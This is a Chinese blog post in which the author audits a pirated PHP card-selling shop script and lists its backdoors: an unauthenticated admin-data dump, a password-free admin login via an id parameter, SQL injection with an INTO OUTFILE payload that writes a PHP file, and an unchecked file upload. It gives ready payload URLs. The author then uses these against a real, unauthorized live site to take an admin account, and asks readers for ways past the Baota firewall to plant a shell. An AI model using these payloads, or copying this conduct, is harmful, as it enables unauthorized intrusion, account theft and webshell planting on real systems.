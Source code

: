 ```yaml
---
title: "记一次由百度云会员引起的渗透"
date: 2019-04-03T13:18:55+08:00
draft: false
tags: ['php','sql','vip']
categories: ['代码审计','渗透测试']
---
```


百度云盘真的恶心，不开会员10k/s。

<!--more-->

## 前言

前天找了点域渗透的环境和资料，都是百度云盘存储的，一个镜像十几个g，下不下来，发现网上有卖百度云VIP账号的，都是一些发卡网，刚好自己最近在学代码审计，就想着下载一套源码自己看看能不能审出漏洞。没想到还真看出来了点东西。

## 开搞

目标站点`xx.com`扫出了`readme.txt`，是**企业版PHP自动发卡源码免授权优化版**

![](https://y4er.com/img/uploads/20190509165269.jpg)

看到这免授权优化版我就知道有戏，很可能存在后门。网上找了一套

![](https://y4er.com/img/uploads/20190509162439.jpg)

目录结构和目标站点一样，应该就是这套了。

本地搭建，然后源代码扔到seay先跑着，我先大概看下架构

`index.php`入口

![](https://y4er.com/img/uploads/20190509168352.jpg)

典型的mvc架构

![](https://y4er.com/img/uploads/20190509168398.jpg)

伪静态重写URL

![](https://y4er.com/img/uploads/20190509167137.jpg)

代码审计这方面我是新手，所以我的目标是找找sql注入、未授权访问、上传点以及越权，当然考虑到是免授权优化版，我还可以找找后门：文件遍历或者代码执行

## [后门?]文件遍历

`/bom.php`的`checkdir()`函数

![](https://y4er.com/img/uploads/20190509169865.jpg)

![](https://y4er.com/img/uploads/20190509163282.jpg)

递归遍历当前目录下的所有文件。

这个文件应该是去除文件的bom头，不知道算不算后门。

## 过滤方式

`\includes\libs\Functions.php`

![](https://y4er.com/img/uploads/20190509168122.jpg)

全局`makeSafe()`函数过滤，强转数字，`addslashes()`和`mysql_real_escape_string()`转义字符串，`strip_tags`去除html标签

`\includes\libs\Mysql.php`

MySQL使用UTF8编码

![](https://y4er.com/img/uploads/20190509169572.jpg)

我发现的SQL语句变量全部使用单引号进行包裹，寄希望于seay，暂放。

## [后门]获取管理员账户

`\admin\adminInfo.php`没有鉴权

![](https://y4er.com/img/uploads/20190509165310.jpg)

```php
function getmethod(){
	$ob = new Admin_Model();
	$items = $ob->getData(1, 10, "WHERE id <> -1");	
	$index = 0;
	echo "<table border='1' style=''>";
	foreach($items as $item){
		echo "<tr>";
		$index ++;
		if($index == 1){		
			foreach($item as $key => $val){
				if(preg_match("/^\d*$/",$key)){
					continue;
				}
				echo "<th>$key</th>";
			}
			echo "</tr>";
			echo "<tr>";
		}
		foreach($item as $key => $val){
			if(preg_match("/^\d*$/",$key)){
				continue;
			}
			echo "<td>$val</td>";	
		}
		echo "</tr>";
	}
	echo "</table>";
}
```

payload：`/admin/adminInfo.php?action=get`

## [后门]无需密码登录后台

还是`\admin\adminInfo.php`

```php
function infomethod(){
	$ob = new Admin_Model();
	$u = $ob->getOneData($_GET['id']);
	$_SESSION['login_adminname']=$u['username'];
	$_SESSION['login_adminid']=$u['id'];
	$_SESSION['login_adminutype']=$u['utype'];
	$_SESSION['login_adminlimit']=explode('|',$u['adminlimit']);
}
```

payload:先访问`/admin/adminInfo.php?action=info&id=1`然后访问`/admin/`

## [后门]SQL注入

还是`\admin\adminInfo.php`的`infomethod()`函数

```php
$u = $ob->getOneData($_GET['id']);
```

id直接代入数据库查询，可尝试`into outfile`

payload

```
http://go.go/admin/admininfo.php?action=info&id=-1 union select 1,2,3,4,5,6,7,8,9,10,'<?php phpinfo()?>' into outfile 'E:/WWW/faka/1.php'
```

## 后台任意文件上传

`/admin/set.php`未对文件后缀校验

![](https://y4er.com/img/uploads/20190509169338.jpg)

![](https://y4er.com/img/uploads/20190509161320.jpg)

## 漏洞利用

文件遍历拿到后台=>`adminInfo.php`拿到管理员账户或直接登陆=>任意文件上传拿shell

## 实战

后门进入后台，上传没有写文件权限，sql注入outfile写文件被宝塔拦截，尝试多种方法无果，放弃，毕竟账号已经有了，下东西去。

![](https://y4er.com/img/uploads/20190509162833.jpg)

ps:我没想到一个卖百度云账号的流水一天也能7k

## 总结

网站是死的，思路是活的。渗透测试的精髓是指哪打哪，希望我可以做到。**另外如果有师傅知道怎么绕过宝塔写shell的请pm我，感激不尽。**有在学代码审计的同学也欢迎找我交流哦！